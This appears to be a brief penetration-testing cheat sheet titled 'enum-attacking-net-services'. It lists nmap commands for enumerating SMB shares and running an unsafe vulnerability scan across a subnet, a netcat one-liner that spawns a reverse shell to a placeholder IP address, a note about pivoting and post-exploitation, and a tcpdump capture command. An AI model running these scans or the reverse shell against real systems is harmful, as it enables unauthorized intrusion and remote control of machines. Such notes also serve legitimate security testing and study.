 # enum-attacking-net-services


Locate and enum open smb shares:

``nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24``

Scan for vulnerable SMB servers:

``nmap -v -p 445 --script=smb-check-vulns 
--script-args=unsafe=1 192.168.1.0/24``

use netcat to spawn a reverse shell:

``nc -e /bin/sh SOME-IP-ADDRESS 80``

todo: add metasploit/bash automated scanner, pivoting examples(post exploitation)

Packet Inspection detecting source traffic on specific port:
``tcpdump tcp port 443 -w dump.pcap -i eth0``
